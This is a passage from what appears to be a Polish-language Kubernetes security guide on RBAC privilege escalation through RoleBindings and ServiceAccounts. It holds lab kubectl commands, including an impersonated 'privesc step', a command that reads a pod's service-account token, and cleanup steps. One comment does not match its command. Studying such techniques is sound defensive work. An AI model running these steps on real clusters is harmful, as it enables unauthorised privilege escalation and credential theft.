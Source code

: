 ```bash
- apiGroups: [""]
resources: ["pods"]
verbs: ["get", "list", "delete", "patch", "create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
name: test-rb2
subjects:
- kind: ServiceAccount
name: test-sa
apiGroup: ""
roleRef:
kind: Role
name: test-r2
apiGroup: rbac.authorization.k8s.io' | kubectl apply -f -

# Create a pod as user Test with the SA test-sa (privesc step)
echo "apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
name: test-r2
subjects:
- kind: ServiceAccount
name: test-sa2
apiGroup: ""
roleRef:
kind: Role
name: test-r2
apiGroup: rbac.authorization.k8s.io"| kubectl --as Test apply -f -

# Connect to the pod created an confirm the attached SA token belongs to test-sa
kubectl exec -ti -n default test-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token | cut -d "." -f2 | base64 -d

# Clean the scenario
kubectl delete rolebinding test-rb
kubectl delete rolebinding test-rb2
kubectl delete role test-r
kubectl delete role test-r2
kubectl delete serviceaccount test-sa
kubectl delete serviceaccount test-sa2
```
### Bind explicitly Bindings

W sekcji "Zapobieganie eskalacji uprawnień i uruchamianie" na stronie [https://unofficial-kubernetes.readthedocs.io/en/latest/admin/authorization/rbac/](https://unofficial-kubernetes.readthedocs.io/en/latest/admin/authorization/rbac/) wspomniano, że jeśli SA może tworzyć Binding i ma explicite uprawnienia Bind do Roli/Roli klastra, może tworzyć powiązania nawet używając Ról/Ról klastra z uprawnieniami, których nie ma.\
Jednak to nie zadziałało dla mnie:
```yaml
# Create 2 SAs, give one of them permissions to create clusterrolebindings
# and bind permissions over the ClusterRole "admin"
echo 'apiVersion: v1
kind: ServiceAccount
metadata:
name: test-sa
---
apiVersion: v1
kind: ServiceAccount
metadata:
name: test-sa2
```